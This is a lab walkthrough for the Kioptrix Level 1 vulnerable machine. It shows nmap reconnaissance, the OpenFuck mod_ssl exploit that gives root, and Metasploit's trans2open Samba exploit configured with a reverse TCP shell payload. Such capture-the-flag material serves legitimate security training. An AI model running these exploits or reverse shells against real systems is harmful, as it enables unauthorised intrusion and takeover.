 # Kioptrix Level 1

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.0.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.0.3**.

# Reconnaisance
```bash
nmap 10.0.0.3
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```
Now we proceed by examining each of the services on the machine.

## SSH
```bash
nmap -A 10.0.0.3 -p 22
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
MAC Address: 08:00:27:BC:A2:66 (Oracle VirtualBox virtual NIC)
```

Analysis of the SSH version and some brute force attempts using hydra do yield any success.
However, it should be noted that the support of SSHv1 is strongly discouraged as it has inherent weaknesses.

# HTTP
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
```
Following this ```dirbuster``` was used to enumerate directories and locations.
No specific locations were found.

Analysis of the HTTPD version revealed the ```OpenFuck``` vulnerability was present.

```bash
./OpenFuck 0x6b 10.0.0.3
```

Find more details at: https://www.exploit-db.com/exploits/764.

This gives root once executed against the target.

# RPC & filenet
Neither of these services yielded much.

No vulnerabilities were found for either.

Port ```32768``` seemed to be associated to trojans, with little context.

# NetBIOS

We used Metasploit instead of enum4linux due to version detection bugs.

```powershell
msf auxiliary(scanner/smb/smb_version) > run
[*] 10.0.2.7:139          - Host could not be identified: Unix (Samba 2.2.1a)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) >
```
Based on the SAMBA version of **2.2.1a** the following was found: https://www.exploit-db.com/exploits/10.

## Metasploit Exploitation

Using msf we were able to gain root:

```
use exploit/linux/samba/trans2open

set payload linux/x86/shell/reverse_tcp
```
